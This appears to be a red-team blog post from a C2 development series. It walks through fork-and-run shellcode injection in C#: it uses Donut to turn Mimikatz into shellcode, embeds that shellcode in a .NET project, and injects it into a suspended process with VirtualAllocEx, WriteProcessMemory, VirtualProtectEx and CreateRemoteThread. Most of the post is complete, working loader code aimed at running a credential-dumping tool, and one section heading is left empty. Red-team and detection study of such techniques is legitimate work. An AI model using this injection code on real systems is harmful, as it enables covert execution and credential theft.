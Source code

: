 ```yaml
---
title: Fork and Run Implementation in C# - Shellcode Injection
author: Fropops
date: 2023-06-21 08:00:00 +0800
categories: [Developpement]
tags: [C#, C2, Red Team, Fork and Run, Injection, WinAPI, Command Execution]
---
```


# Introduction

In the previous articles, we saw how to use the Windows API to create processes for the current user or with the rights of another user. Now, we will leverage this knowledge to inject malicious code that we want to execute.

# Shellcode Preparation

The first step is to generate our "shellcode". There are many resources available online about understanding and generating shellcode, but it is beyond the scope of this post series. Therefore, we will simply use [Donut](https://github.com/TheWover/donut), a program that automatically generates the required shellcode to execute a chosen Windows program (for this example, we will use the famous tool, Mimikatz):

```shell
/opt/donut/donut -i /mnt/Share/Utils/win/programs/mimikatz64.exe -f 1 -a 2 -o /mnt/Share/tmp/Payload.bin -p 'coffee exit'
```

![Donut Shellcode Generation](/assets/img/posts/ForkAndRun/injection-donut.png)

Now, we need to incorporate this file containing the binary code into our application to be able to inject it. For this post, we will simply add it as a resource in our .NET project:


To do this, go to the properties of our project

![Ressource - Properties](/assets/img/posts/ForkAndRun/injection-ressource-properties.png)


Choose the "Resource" tab and click on the link "This project does not contain a default resource file. Click here to create one."

![Ressource - Creation](/assets/img/posts/ForkAndRun/injection-ressource-create.png)


Change the resource type to "File".

![Ressource - File](/assets/img/posts/ForkAndRun/injection-ressource-files.png)


Click on "Add resource" and select the file we just generated.

![Ressource - Payload](/assets/img/posts/ForkAndRun/injection-ressource-addpayload.png)


To access the content of this resource from our program, we can use the following line of code:
```c#
var shellcode = Properties.Resources.Payload;
```

# Shellcode Injection

Before injecting this code into the process we will create, there is one more change to make. In this case, we are creating a process that will serve as a shell to run our malicious program. So when we start the process, we don't want it to execute its own code. To achieve this, we will start the process in a suspended state. Therefore, we will insert the following line into the process creation properties:

```c#
creationFlags |= PROCESS_CREATION_FLAGS.CREATE_SUSPENDED;
```

There are different ways to inject shellcode, and there are numerous resources available on this topic. We will use one of the simplest and most well-known techniques. By using the functions VirtualAllocEx, WriteProcessMemory, and VirtualProtectEx, we will create a memory space in the created process that is large enough to hold our shellcode, copy the binary code into that space, and make the memory space executable.

We need to import these three functions:

```c#
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAllocEx(
	IntPtr hProcess,
	IntPtr lpAddress,
	int dwSize,
	AllocationType flAllocationType,
	MemoryProtection flProtect);

[DllImport("kernel32.dll")]
public static extern bool VirtualProtectEx(
	IntPtr hProcess,
	IntPtr lpAddress,
	int dwSize,
	MemoryProtection flNewProtect,
	out MemoryProtection lpflOldProtect);

[DllImport("kernel32.dll")]
public static extern bool WriteProcessMemory(
	IntPtr hProcess,
	IntPtr lpBaseAddress,
	byte[] lpBuffer,
	int nSize,
	out IntPtr lpNumberOfBytesWritten);
```

We also need to import the associated structures:

```c#
[Flags]
public enum AllocationType
{
	Commit = 0x1000,
	Reserve = 0x2000,
	Decommit = 0x4000,
	Release = 0x8000,
	Reset = 0x80000,
	Physical = 0x400000,
	TopDown = 0x100000,
	WriteWatch = 0x200000,
	LargePages = 0x20000000
}

[Flags]
public enum MemoryProtection
{
	Execute = 0x10,
	ExecuteRead = 0x20,
	ExecuteReadWrite = 0x40,
	ExecuteWriteCopy = 0x80,
	NoAccess = 0x01,
	ReadOnly = 0x02,
	ReadWrite = 0x04,
	WriteCopy = 0x08,
	GuardModifierflag = 0x100,
	NoCacheModifierflag = 0x200,
	WriteCombineModifierflag = 0x400
}
```

In our program, we use these functions to inject the code into the process:

```c#
var baseAddress = VirtualAllocEx(
   pInfo.hProcess,
   IntPtr.Zero,
   shellcode.Length,
   AllocationType.Commit |  AllocationType.Reserve,
   MemoryProtection.ReadWrite);

if (baseAddress == IntPtr.Zero)
	throw new InvalidOperationException($"Failed to allocate memory, error code: {Marshal.GetLastWin32Error()}");


IntPtr bytesWritten = IntPtr.Zero;
if (!WriteProcessMemory(pInfo.hProcess, baseAddress, shellcode, shellcode.Length, out bytesWritten))
	throw new InvalidOperationException($"Failed to write shellcode into the process, error code: {Marshal.GetLastWin32Error()}");

if (bytesWritten.ToInt32() != shellcode.Length)
	throw new InvalidOperationException($"Failed to write All the shellcode into the process");

if (!VirtualProtectEx(
	pInfo.hProcess,
	baseAddress,
	shellcode.Length,
	MemoryProtection.ExecuteRead,
	out _))
{
	throw new InvalidOperationException($"Failed to cahnge memory to execute, error code: {Marshal.GetLastWin32Error()}");
}
```

To execute the injected code, we can rely on the CreateRemoteThread function, which we need to import:

```c#
[DllImport("kernel32.dll", SetLastError = true)]
public static extern IntPtr CreateRemoteThread(
	IntPtr hProcess,
	IntPtr lpThreadAttributes,
	uint dwStackSize,
	IntPtr lpStartAddress,
	IntPtr lpParameter,
	uint dwCreationFlags,
	out IntPtr lpThreadId);
```

Then, we can use it as follows:
```c#
IntPtr threadres = IntPtr.Zero;
IntPtr thread = CreateRemoteThread(pInfo.hProcess, IntPtr.Zero, 0, baseAddress, IntPtr.Zero, 0, out threadres);

if (thread == IntPtr.Zero)
	throw new InvalidOperationException($"Failed to create remote thread to start execution of the shellcode, error code: {Marshal.GetLastWin32Error()}");
```

And here's the result :

![Injection - Mimikatz](/assets/img/posts/ForkAndRun/injection-mimikatz.png)

# What does it look likes in our C2?

# Final Thoughts

This article demonstrates how to use the Windows API to inject shellcode in a newly created process, and how it's leveraged to execute hacking tools.

You can find the complete source code of this article on [Github](https://github.com/Fropops/OffensiveWinAPI/blob/main/TestForBlog/Injection.cs)